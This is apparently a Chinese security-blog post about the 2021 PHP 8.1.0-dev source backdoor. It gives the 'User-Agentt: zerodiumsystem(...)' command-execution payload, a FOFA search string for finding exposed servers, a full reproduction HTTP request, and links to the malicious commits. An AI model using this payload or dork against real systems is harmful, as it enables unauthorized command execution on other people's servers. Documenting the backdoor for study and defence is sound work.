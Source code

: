#  【后门】PHP 8.1.0-dev 命令执行漏洞   
原创 漏洞推送  一个不正经的黑客   2023-11-25 20:05  
  
<table><tbody style="outline: 0px;visibility: visible;"><tr style="outline: 0px;visibility: visible;"><td width="557" valign="top" height="62" style="outline: 0px;word-break: break-all;hyphens: auto;visibility: visible;"><section style="margin-bottom: 15px;outline: 0px;visibility: visible;text-indent: 0em;"><span style="outline: 0px;font-size: 14px;visibility: visible;font-family: Optima-Regular, PingFangTC-light;color: rgb(255, 76, 65);"><strong style="outline: 0px;visibility: visible;">免责声明</strong></span><span style="outline: 0px;font-size: 14px;visibility: visible;"><span style="outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="outline: 0px;visibility: visible;">：</strong></span></span><span style="outline: 0px;visibility: visible;font-size: 14px;letter-spacing: 0.578px;">本文所涉及的技术和方法仅供合法合规的目的参考和学习使用。严禁利用本文内容从事任何违法或未经授权的活动。如因个人非法使用所造成的任何不良后果，作者及本公众号概不负责</span></section></td></tr></tbody></table>  
今天，继续讲一个鲜为人知但有价值的漏洞。  
  
01  
  
漏洞概述  
  
  
01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
HTTP Header User-Agentt 字段存在命令执行后门  
  
payload:   
  
  
```
User-Agentt: zerodiumsystem('id');
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
02  
  
FOFA Dork  
  
  
02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
  
FOFA Dork: "PHP/8.1.0-dev"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMp2Uic5KHDfYsT08V6kjonGanf7icURIozrbNMiadicgGF5dsSfJicSA5dtFZdSgm2mIOF4czzEFIlCobg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
03  
  
漏洞复现  
  
  
03  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
  
  
```
GET / HTTP/1.1
User-Agentt: zerodiumsystem('echo 666pHp');
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMp2Uic5KHDfYsT08V6kjonGa1XhK1XWyhj3gsdZnhuLwc7l0alSqLyXa3BIHYeiav1qIr6JMaZ5H8Og/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
04  
  
漏洞资料  
  
  
04  
  
![](https://mmbiz.qpic.cn/mmbiz_png/I90uibRougiaAPoicCicqQUMe5bOZTcjRqaPWmECPpkGcj4Uz7IvHlLF60qFE9DSJlJTmIx90HqYrwvmk5Jtwgz0icg/640?wx_fmt=png "")  
  
  
  
PHP 8.1.0-dev版本于2021年3月28日发布时曾被发现存在后门问题。在php-src存储库中提交了两个恶意的代码更改，但随后被及时发现并成功清除。这一事件突显了对于软件安全的持续关注和及时响应的重要性。对于软件安全问题，我们建议及时关注官方通告，确保及时应用安全补丁，以维护系统和应用的稳健性  
  
  
两个恶意提交Commit记录如下:  
  
  
https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d  
  
  
https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/8I5HGyuMrINXqLqcxWkX51mYV0MKss4sVKyiaEELcydvYx7dmn7Mv6XI2mY92xUs2ib9QuVr0icSX5JNayFqde7Rw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/dV2MexLmyjSmL9rgyuQwn3gewQ4XFZkPdQckzFmCzqVEtfOficwMWicd12vOVqzhibkUupaIlmcgiasTlXS7czf5Bg/640?wx_fmt=png "")  
  
往期推荐  
  
[不要总想搞小新闻，这个漏洞千万不要看！](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247500215&idx=1&sn=5954acb836e7278bc55fc8d619fd1360&chksm=c0ce3acef7b9b3d87aa133d3c3c09a03399afbc436d5f43b5e7e537afeed8163370979120a53&scene=21#wechat_redirect)  
  
  
[【简单】获取任意微信号的wxid_开头原始ID](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499656&idx=1&sn=ce7ac3ca40c226334f292e8bd8c2b318&chksm=c0ce04f1f7b98de733e1206b331281181c6581e488c291bf25d540cc174cc15408b6dddbcbad&scene=21#wechat_redirect)  
  
  
[推荐几个高质量公众号](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499705&idx=1&sn=d1176ab0d532dc90dc8f142c1cd14e23&chksm=c0ce04c0f7b98dd67c43727584d03eb6241b94c1731be802d21af353f30eec9573bd66a0d80c&scene=21#wechat_redirect)  
  
  
[Kinsing恶意软件利用Apache ActiveMQ漏洞进行加密货币挖矿](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499397&idx=1&sn=42c33af2dfdc839c25ad3552eb68a8de&chksm=c0ce05fcf7b98cea72c7364dd56af82bd94fdf2c8b083edcb40fce1ca9301d8e8d9e8455e3e9&scene=21#wechat_redirect)  
  
  
[AI自动生成视频](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499391&idx=1&sn=a28a6fcb1e1203663f00e66364413af1&chksm=c0ce0506f7b98c107c16fed3f222d3db22ec8a44e0bc8e54c3742ec8582e2c6b603671a27df8&scene=21#wechat_redirect)  
  
  
[令人深思！OpenAI  加剧互联网失业浪潮](https://mp.weixin.qq.com/s?__biz=MzkwODI1ODgzOA==&mid=2247499384&idx=1&sn=aa72c89e2302e438e18aeb671da8f4c7&chksm=c0ce0501f7b98c1768143999ee2c7cd9c9794da2b1e5d5347442807094a4581d04dd2648ff3c&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/GEcMgVDQuk8WXCeJeWxoCicw6NTYvUTNR1tmyLQNeEXZoqezmS9mTY0Re8jSGs0pRzuRhzicTOb0jiboMNNnhVPVg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GvZ8LrSx2FeBaGGenn2C0ztlEWCBVwbJIrwgKGKwVDSfOYUTdZv1giby52CluHIrYichAdeTJEpV0JYTfvXiaJZVw/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaTuCKQ0GWZica1bCbcaogd3kV37XMTAC979jicsAIWEhexJWkvtRVOr8loZdgicspRevdGLzgoaVrxg/640?wx_fmt=gif "")  
  
点击下面阅读原文  
  
